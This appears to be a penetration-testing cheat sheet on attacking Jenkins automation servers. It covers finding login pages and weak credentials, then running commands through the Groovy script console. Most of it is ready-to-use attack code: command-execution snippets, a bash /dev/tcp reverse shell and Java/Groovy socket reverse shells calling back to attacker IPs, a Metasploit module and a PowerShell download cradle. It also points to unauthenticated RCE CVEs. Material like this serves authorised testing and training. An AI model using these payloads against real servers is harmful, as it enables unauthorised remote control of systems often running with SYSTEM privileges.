

# Jenkins

Open source automation server written in Java for CI/CD pipelines. Server based system that runs in servlet containers, i.e tomcat.&#x20;

Jenkins installs are often running on windows as the NT AUTHORITY/SYSTEM account, making jenkins a very juicy target.&#x20;

Jenkins runs on port 8080 by default and uses 5000 to attach slave servers.&#x20;

### Discovery/Footprinting&#x20;

Jenkins is easily discovered by its distinctive login page:&#x20;

<figure><figcaption></figcaption></figure>

Jenkins may be running with weak/default credentials.&#x20;

### Code execution via groovy script console

We can either use this console to excute commands directly similar to a web shell, or attempt to gain a reverse shell. sometimes we may not always be able to get a reverse shell (outgoing ports being blocked or other reasons) so knowing how to execute commands direct on the server can prove helpful in this instance.&#x20;

**Execute commands on the server:**

Linux:

```groovy
def cmd = 'id'
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = cmd.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println sout
```

Windows:

```groovy
def cmd = "cmd.exe /c dir".execute();
println("${cmd.text}");
```


**Reverse Shell Methods:**

1. Metasploit module /exploit/multi/http/jenkins\_script\_console
2. Linux:&#x20;
   1.

       ```groovy
       r = Runtime.getRuntime()
       p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.14.15/8443;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
       p.waitFor()
       ```
3. Windows:
   1.

       ```groovy
       String host="localhost";
       int port=8044;
       String cmd="cmd.exe";
       Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
       ```


Additional Methods:

1. Against a Windows host, we could attempt to add a user and connect to the host via RDP or WinRM or, to avoid making a change to the system, use a PowerShell download cradle with [Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1).
2. More Groovy revshell resources:



#### Groovy <a href="#groovy" id="groovy"></a>

by [frohoff](https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76) NOTE: Java reverse shell also work for Groovy

```
String host="10.0.0.1";int port=4242;String cmd="cmd.exe";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

**Groovy Alternative 1**

**NOTE**: This is more stealthy

```
Thread.start {    // Reverse shell here}
```

### Known Vulnerabilities

If you fingerprint the Jenkins install version its always worth research vulnerabilities. there are a number of RCE vulnerabilities in different versions of Jenkins, for example CVE-2018-1999002 and [CVE-2019-1003000](https://jenkins.io/security/advisory/2019-01-08/#SECURITY-1266). These two can be used to get RCE without being authenticated.&#x20;
